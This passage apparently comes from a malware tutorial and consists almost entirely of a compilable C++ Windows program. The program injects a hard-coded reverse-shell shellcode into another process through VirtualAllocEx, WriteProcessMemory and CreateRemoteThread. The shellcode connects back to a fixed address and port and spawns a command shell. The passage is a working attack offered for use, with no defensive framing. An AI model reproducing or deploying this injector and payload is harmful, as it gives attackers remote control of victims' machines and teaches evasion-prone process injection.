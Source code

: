 Very basic example is:
```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

// reverse shell payload (without encryption)
unsigned char my_payload[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
"\x49\x89\xe5\x49\xbc\x02\x00\x11\x5c\x0a\x09\x01\x06\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

unsigned int my_payload_len = sizeof(my_payload);

int main(int argc, char* argv[]) {
  HANDLE ph; // process handle
  HANDLE rt; // remote thread
  PVOID rb; // remote buffer

  // parse process ID
  printf("PID: %i", atoi(argv[1]));
  ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  // allocate memory buffer for remote process
  rb = VirtualAllocEx(ph, NULL, my_payload_len, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "copy" data between processes
  WriteProcessMemory(ph, rb, my_payload, my_payload_len, NULL);

  // our process start new thread
  rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)rb, NULL, 0, NULL);
  CloseHandle(ph);
  return 0;
}
```